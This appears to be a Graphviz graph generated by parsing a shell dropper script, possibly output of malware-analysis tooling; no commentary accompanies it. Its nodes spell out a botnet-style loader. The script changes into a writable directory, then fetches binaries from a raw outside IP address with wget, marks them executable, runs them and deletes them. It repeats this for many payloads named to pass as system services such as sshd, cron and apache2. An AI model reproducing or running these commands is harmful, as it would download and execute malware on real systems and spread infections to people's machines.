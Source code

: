 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://145.239.210.174/wtfwntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x wtfwntpd "];
12 -> 14 [label=";,"];
14 [label="./wtfwntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf wtfwntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://145.239.210.174/wtfwsshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x wtfwsshd "];
30 -> 32 [label=";,"];
32 [label="./wtfwsshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf wtfwsshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://145.239.210.174/wtfwopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x wtfwopenssh "];
48 -> 50 [label=";,"];
50 [label="./wtfwopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf wtfwopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://145.239.210.174/wtfwbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x wtfwbash "];
66 -> 68 [label=";,"];
68 [label="./wtfwbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf wtfwbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://145.239.210.174/wtfwtftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x wtfwtftp "];
84 -> 86 [label=";,"];
86 [label="./wtfwtftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf wtfwtftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://145.239.210.174/wtfwwget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wtfwwget "];
102 -> 104 [label=";,"];
104 [label="./wtfwwget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wtfwwget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://145.239.210.174/wtfwcron "];
118 -> 120 [label=";,"];
120 [label="chmod +x wtfwcron "];
120 -> 122 [label=";,"];
122 [label="./wtfwcron "];
122 -> 124 [label=";,"];
124 [label="rm -rf wtfwcron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://145.239.210.174/wtfwftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x wtfwftp "];
138 -> 140 [label=";,"];
140 [label="./wtfwftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf wtfwftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://145.239.210.174/wtfwpftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x wtfwpftp "];
156 -> 158 [label=";,"];
158 [label="./wtfwpftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf wtfwpftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://145.239.210.174/wtfwsh "];
172 -> 174 [label=";,"];
174 [label="chmod +x wtfwsh "];
174 -> 176 [label=";,"];
176 [label="./wtfwsh "];
176 -> 178 [label=";,"];
178 [label="rm -rf wtfwsh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://145.239.210.174/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://145.239.210.174/wtfwapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x wtfwapache2 "];
210 -> 212 [label=";,"];
212 [label="./wtfwapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf wtfwapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://145.239.210.174/wtfwtelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x wtfwtelnetd "];
228 -> 230 [label=";,"];
230 [label="./wtfwtelnetd "];
230 -> 231 [label=";,"];
}
